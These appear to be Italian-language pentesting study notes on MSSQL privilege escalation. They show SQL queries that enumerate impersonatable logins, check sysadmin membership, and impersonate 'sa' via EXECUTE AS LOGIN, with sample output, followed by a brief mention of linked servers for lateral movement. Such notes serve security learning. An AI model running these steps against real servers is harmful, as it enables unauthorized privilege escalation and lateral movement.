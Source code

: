 Il server SQL ha il permesso speciale IMPERSONATE. che permette all' utente di avere permessi di un altro utente.

Prima pero' dobbiamo capire chi possiamo impersonare

```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin
```

### Verifying our current role
```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio   0      
```
0 significa che non abbiamo sysadmin rule

Pero' possiamo impersonare ad esempio l' utente SA (che e' sysadmin)

```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1
```


## Communicaiing with Other Databases with MSSQL

MSSQL ha un opzione detta **linked servers**. sono tipicamente configurati per abilitare il database engine ad eseguire una Transact-SQL statement che include altre tabelle.

praticamente possiamo muoverci lateralmente verso altri SQL server se c'e' questa cnfigurazione
